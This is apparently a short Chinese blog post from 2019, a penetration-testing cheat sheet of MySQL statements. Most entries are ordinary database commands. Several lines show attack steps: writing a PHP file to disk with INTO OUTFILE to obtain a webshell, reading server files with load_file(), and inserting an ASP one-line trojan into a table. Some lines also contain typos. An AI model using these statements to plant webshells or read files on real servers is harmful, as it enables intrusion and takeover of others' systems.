 ```yaml
---
layout:     post
title:      SQL语句
subtitle:   渗透测试SQL常用语句
date:       2019-04-28
author:     By Oxof
header-img: img/zhelong.jpg
catalog:    true
tags:
    - 渗透测试
---
```




mysql -u username -p password    //登陆SQL
show databases;        //查看数据库
use 库名;        //选择数据库
show tables;        //查看表下内容
select * from 字段名;    //查看字段下内容
select * from users where ordet by 4;    //查询字段数
select * from security.users;    //跨库选择security库下的users表
内置函数查看数据库信息 
version() 查看数据库版本 
database() 查看当前数据库名 
user() 查看当前用户 
select * from adimn into outfile '路径';    //导出数据库表admin到xx路径 
select '<?php phpinfo();?>' into outfile "d:/1.php"    //换成php语句的话就是拿webshell
load_file(0xxxxxxxxx)        //读取文件
mysql注释符号
    1.#注释    可能会误认为是锚点，所以一般对# -> %23进行编码
    2.“-- “ 
    3./* */
create table aa123 (cmd text); 创建一个新的表  ,表名aa123，cmd为字段名  text为字段类型
insert into aa123 values ("<%execute request("textarea1")%> " );在表中插入一句话木马内容
